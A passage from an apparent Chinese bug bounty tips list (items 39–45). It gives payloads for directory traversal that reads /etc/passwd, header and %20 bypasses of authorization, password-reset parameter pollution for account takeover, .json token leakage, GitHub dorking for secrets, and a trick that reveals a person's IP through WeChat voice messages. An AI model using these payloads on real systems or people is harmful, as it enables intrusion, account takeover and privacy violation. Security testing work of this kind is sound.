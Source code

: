 通过上述语法，可以搜索到一些敏感的私钥，一些SSH登录私钥，mysql的数据库密码，API key等等,另外推荐一个脚本：[GitHub - techgaun/github-dorks: Find leaked secrets via github search](https://github.com/techgaun/github-dorks)

39、通过添加.json后缀，泄露一些敏感信息，比如：
一次正常请求：
```
GET /ResetPassword HTTP/1.1 
{"email":"victim@example.com"} 
响应： HTTP/1.1 200 OK
添加.json后缀的请求： 
GET /ResetPassword.json HTTP/1.1 
{"email":"victim@example.com"} 
响应： HTTP/1.1 200 OK 
{"success":"true","token":"596a96-cc7bf-9108c-d896f-33c44a-edc8a"}
```

40、如果响应为401，可以试试在请求头中添加`X-Custom-IP-Authorization: 127.0.0.1`

41、利用火绒剑，配合微信发语音的方式，可以获取该人的登录IP

42、目录穿越，敏感文件读取一些Payload：
```
\..\WINDOWS\\win.ini 
..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\
.?\.?\.?\etc\passwd 
../../boot.ini 
%0a/bin/cat%20/etc/passwd 
\\'/bin/cat%20/etc/passwd\\' 
..%c1%afetc%c1%afpasswd
```

43、在访问admin路径面板时可以通过添加%20，来绕过，具体如下：
```
target.com/admin –> HTTP 302 (重定向到登录页面) 
target.com/admin%20/ -> HTTP 200 OK 
target.com/%20admin%20/ -> HTTP 200 OK 
target.com/admin%20/page -> HTTP 200 OK
```

44、在重置密码的地方，可以尝试添加另外一个次要的账号，比如，手机号，邮箱号等等，比如：
```
a、构造两个参数： 
email=victim@xyz.tld&email=hacker@xyz.tld 
b、使用抄送方式: 
email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld 
c、使用分隔符： 
email=victim@xyz.tld,hacker@xyz.tld 
email=victim@xyz.tld%20hacker@xyz.tld 
email=victim@xyz.tld|hacker@xyz.tld 
d、不使用域名：email=victim 
e、不使用顶级域名：email=victim@xyz 
f、JSON情况： {"email":\["victim@xyz.tld","hacker@xyz.tld"\]}
```

45、如果有利用邮箱重置密码功能的情况，而且还是JSON传输的情况下，使用SQLmap跑注入，可以将\*（星号）放在@之前，比如：
原文链接 [Bug Bounty Tips #7 - InfosecMatter](https://www.infosecmatter.com/bug-bounty-tips-7-sep-27/#2_bypass_email_filter_leading_to_sql_injection_json)
